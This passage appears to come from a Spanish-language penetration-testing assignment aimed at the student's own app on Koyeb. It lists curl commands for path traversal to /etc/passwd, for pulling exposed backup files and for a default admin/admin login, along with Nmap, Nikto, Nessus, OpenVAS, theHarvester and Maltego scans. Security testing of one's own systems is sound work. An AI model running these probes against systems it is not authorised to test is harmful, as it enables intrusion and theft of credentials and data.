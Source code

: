 ```bash
curl "https://tu-app.koyeb.app/admin/file?filename=../../../etc/passwd"

# Backup files access
curl https://tu-app.koyeb.app/backup/database.sql
curl https://tu-app.koyeb.app/backup/config.bak
curl https://tu-app.koyeb.app/backup/users.csv

# Weak authentication
curl -X POST -d "username=admin&password=admin" https://tu-app.koyeb.app/admin/login
```

### FASE 5: ANÁLISIS CON HERRAMIENTAS ESPECIALIZADAS
```bash
# Nikto web scanner
nikto -h https://tu-app.koyeb.app

# Comprehensive analysis
nessus_scan tu-app.koyeb.app
openvas_scan tu-app.koyeb.app
```

---

## COMANDOS ESPECÍFICOS SEGÚN HERRAMIENTAS REQUERIDAS

### theHarvester
```bash
theHarvester -d tu-dominio.com -b google
```

### Maltego
- Import domain: tu-dominio.com
- Run standard transforms
- Analyze infrastructure

### Nmap (Obligatorio)
```bash
nmap -sS -sV -O -p- tu-app.koyeb.app
nmap --script vuln tu-app.koyeb.app
```

### Nessus (Obligatorio)
1. Abrir Nessus Web UI
2. New Scan → Basic Network Scan
3. Target: tu-app.koyeb.app
4. Launch scan

### OpenVAS (Obligatorio)
1. Abrir GVM/OpenVAS
2. Create Task → tu-app.koyeb.app
3. Run Full and fast scan

